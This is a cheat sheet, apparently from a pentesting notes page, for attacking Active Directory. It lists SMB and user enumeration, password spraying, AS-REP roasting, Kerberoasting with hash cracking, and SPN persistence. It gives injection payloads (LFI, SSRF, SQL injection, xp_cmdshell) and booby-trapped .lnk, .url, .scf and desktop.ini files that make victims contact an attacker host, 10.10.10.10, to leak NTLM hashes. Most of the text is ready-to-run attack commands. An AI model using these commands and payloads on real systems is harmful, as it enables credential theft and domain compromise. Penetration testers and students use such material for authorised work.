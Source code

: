 # Active Directory

## AD enum (NO creds/sessions)

### Basic recon

```sh
nxc smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <target>
```

### SMB enum

```bash
# null session
nxc smb <IP> -u '' -p '' --shares
# guest
nxc smb <IP> -u 'guest' -p '' --shares
```

```bash
# null session
smbclient -N -L //<target>
# guest
smbclient -U 'guest%' -L //<target>
# conect to a share
smbclient [-U 'guest%'] [-N] //<target>/<share>
```

```bash
# null session
smbmap -H <target>
# guest
smbmap -u 'guest' -p '' -H <target>
# recursive listing
smbmap [-u 'guest' -p '] -H <target> -r [<share>]
```

### User enum

```bash
#kerbrute
kerbrute userenum -d <domain> [--dc <target>] users.txt
```

```bash
# smb/rpc/ldap
nxc smb <target> [-u 'guest' -p ''] --users
rpcdump.py [[domain/]guest:@]<target>
```

```bash
# rid cycling
nxc smb [-u 'guest' -p ''] --rid-brute <target>
lookupsid.py [-no-pass] [[domain/]guest:@]<target>
seq 500 1500 xargs -P 50 -I{} rpcclient -U 'guest%' <target> -c 'lookupsids S-1-123-{}'
```

### With valid username list

* AS-REP Roast

```bash
GetNPUsers.py -no-pass -usersfile valid_users.txt <domain>/
```

* Password Spraying/Brute Forcing

```bash
# brute forcing
nxc smb <target> -u valid_users.txt -p passwords.txt
kerbrute bruteuser -d <domain> [--dc <target>] passwords.txt '<user>'

# password spraying
nxc smb <target> -u valid_users.txt -p '<password>'
kerbrute passwordspray -d <domain> [--dc <target>] valid_users.txt '<password>'
```

### Capturing NTLM hashes

#### Network poisoning

```bash
responder -I <interface>
```

#### Possible Attacks

> https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

* Via web vulnerability

&#x20;If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```powershell
# LFI
?page=\\10.10.10.10\test

# SSRF
?url=file://10.10.10.10/test

# SQL Injection
?id=1' union select null,load_file('\\\\10.10.10.10\\test'),null-- -
# MSSQL
?id=1' union select null,(select x from OpenRowset(BULK '\\10.10.10.10\test',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\10.10.10.10\test'),null-- -
```

* Shortcut.lnk File

```powershell
# Create a shortcut.lnk with PowerShell
$targetPath = "\\10.10.10.10\test" 
$shortcutPath = "C:\path\to\your\~shortcut.lnk" 
$WScriptShell = New-Object -ComObject WScript.Shell 
$shortcut = $WScriptShell.CreateShortcut($shortcutPath) 
$shortcut.TargetPath = $targetPath 
$shortcut.Save()
```

* Shortcut.url File

```powershell
# Create a shortcut.url with PowerShell
echo '[InternetShortcut]' > ~shortcut.url
echo 'URL=file:///\\10.10.10.10\test' >> ~shortcut.url
```

* SCF File

```powershell
echo '[Shell]' > ~file.scf
echo 'Command=2' >> ~file.scf
echo 'IconFile=explorer.exe,3' >> ~file.scf
echo '[Taskbar]' >> ~file.scf
echo 'Command=ToggleDesktop' >> ~file.scf
echo '[InternetShortcut]' >> ~file.scf
echo 'URL=file:///\\10.10.10.10\test' >> ~file.scf
```

* Desktop.ini File

```powershell
echo '[.ShellClassInfo]' > desktop.ini
echo 'IconResource=\\10.10.10.10\test' >> desktop.ini
attrib +s +h desktop.ini
```

## AD enum (WITH creds/sessions)

### BloodHound enum

You have to configure your neo4j and bloodhound on your machine, then:

```bash
# neo4j
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk/ && neo4j console
# bloodhound
bloodhound
```

#### SharpHound

> https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
# EXE
.\SharpHound.exe -CollectionMethods All
# PS1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethods All -OutputDirectory .
```

### Kerberoast

{% hint style="danger" %}
If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC. There are a few options:

```bash
ntpdate <target>
rdate -n <target>
```
{% endhint %}

#### Attack

```bash
GetUserSPNs.py -request [-dc-ip <target>] <domain>/<user>:<password>
```

#### Cracking

```bash
john --format=krb5tgs --wordlist=passwords.txt hashes
hashcat -m 13100 --force -a 0 hashes passwords.txt
```

#### Persistence

> https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```powershell
#PowerView
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='test/test'} -verbose
```

